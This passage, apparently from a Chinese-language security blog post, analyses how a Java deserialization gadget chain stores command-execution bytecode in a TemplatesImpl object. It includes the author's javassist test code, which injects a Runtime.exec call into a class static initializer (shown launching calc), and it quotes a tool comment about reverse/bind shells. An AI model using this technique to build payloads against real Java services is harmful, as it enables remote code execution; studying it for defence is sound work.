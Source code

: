```
    queueArray[0] = templates;
    queueArray[1] = templates;

    return queue;
}

```

第一行代码`final TemplatesImpl templates = Gadgets.createTemplatesImpl(command);`创建了`TemplatesImpl`类的对象，里面封装了我们需要的命令执行代码。而且是使用**字节码**的形式存储在对象属性中。  
下面就具体分析下这个对象的产生过程。

### (1) 利用TemplatesImpl类存储危险的字节码

在产生字节码时，用到了JDK中`javassist`类。具体了解可以参考这篇博客[http://www.cnblogs.com/hucn/p/3636912.html](http://www.cnblogs.com/hucn/p/3636912.html)。  
下面是我编写的一个简单的样例程序，便于理解:

```
@Test
public void testClassPool() throws CannotCompileException, NotFoundException, IOException
{
    String command = "calc";

    ClassPool pool = ClassPool.getDefault();
    pool.insertClassPath(new ClassClassPath(angelwhu.model.Point.class));
    CtClass cc = pool.get(angelwhu.model.Point.class.getName());
    //System.out.println(angelwhu.model.Point.class.getName());

    cc.makeClassInitializer().insertAfter("java.lang.Runtime.getRuntime().exec(\"" + command.replaceAll("\"", "\\\"") +"\");");
    //加入关键执行代码，生成一个静态函数。

    String newClassNameString = "angelwhu.Pwner" + System.nanoTime();
    cc.setName(newClassNameString);

    CtMethod mthd = CtNewMethod.make("public static void main(String[] args) throws Exception {new " + newClassNameString + "();}", cc);
    cc.addMethod(mthd);

    cc.writeFile();
}

```

上述代码首先获取到class定义的容器`ClassPool`，并找到了我自定义的`Point`类，由此生成了`cc`对象。这样就可以开始对类进行修改的任意操作了。而且这个操作是直接写字节码。这样可以绕过许多安全机制，正像工具中注释说的:

> // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections

后面的操作便是利用我自定义的模板类`Point`，生成新的类名，并使用`insertAfter`方法插入了恶意java代码，执行命令。有兴趣的可以再详细了解这个类的用法。这里不再赘述。

这段代码运行后，会在当前目录生成字节码(class文件)。使用`java`反编译器可看到源码，在原始模板类中插入了恶意静态代码，而且以字节码的形式直接存储。命令行直接运行，可以执行弹出计算器的命令：
